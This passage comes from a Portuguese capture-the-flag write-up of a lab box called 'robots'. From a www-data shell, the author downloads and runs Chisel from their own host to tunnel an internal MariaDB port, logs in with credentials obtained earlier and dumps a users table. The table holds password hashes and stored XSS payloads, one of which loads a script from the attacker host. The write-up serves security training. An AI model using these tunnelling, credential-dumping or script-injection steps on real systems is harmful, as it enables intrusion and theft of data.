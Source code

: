 Como a máquina alvo não tem o `Chisel` vou transfeir usando o cURL (aproveitar que já tem um web server em python rodando)

```bash
www-data@robots:/var/www/html/harm/to/self$ curl -s http://10.6.61.234/chisel -o /tmp/chisel

www-data@robots:/var/www/html/harm/to/self$ chmod +x /tmp/chisel

www-data@robots:/var/www/html/harm/to/self$ /tmp/chisel client 10.6.61.234:7777 R:3306:172.18.0.3:3306 &
[1] 543

www-data@robots:/var/www/html/harm/to/self$ 2025/07/25 03:18:53 client: Connecting to ws://10.6.61.234:7777
2025/07/25 03:18:56 client: Connected (Latency 375.617993ms)
```

Agora, da nossa máquina, podemos acessar o banco com as credências já obtidas:

```bash
mysql -u robots -pq4qCz1OflKvKwK4S -h 127.0.0.1 -D web

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 275
Server version: 11.5.2-MariaDB-ubu2404 mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [web]>
```

```bash
MariaDB [web]> select * from users;
+----+---------------------------------------------------------------+----------------------------------+---------+
| id | username                                                      | password                         | group   |
+----+---------------------------------------------------------------+----------------------------------+---------+
|  1 | admin                                                         | 3e3d6c2d540d49b1a11cf74ac5a37233 | admin   |
|  2 | rgiskard                                                      | ******************************** | nologin |
|  3 | rt                                                            | 7db1d2f3d282542902cb0c4fff189a2b | guest   |
|  4 | <script>alert('xss')</script>                                 | 726d1bae31c7239855322a4e675a4252 | guest   |
|  5 | <script src="http://10.6.61.234/get_server_info.js"></script> | 80423edb24e73f46069918d89006af43 | guest   |
+----+---------------------------------------------------------------+----------------------------------+---------+

5 rows in set (0.324 sec)
```
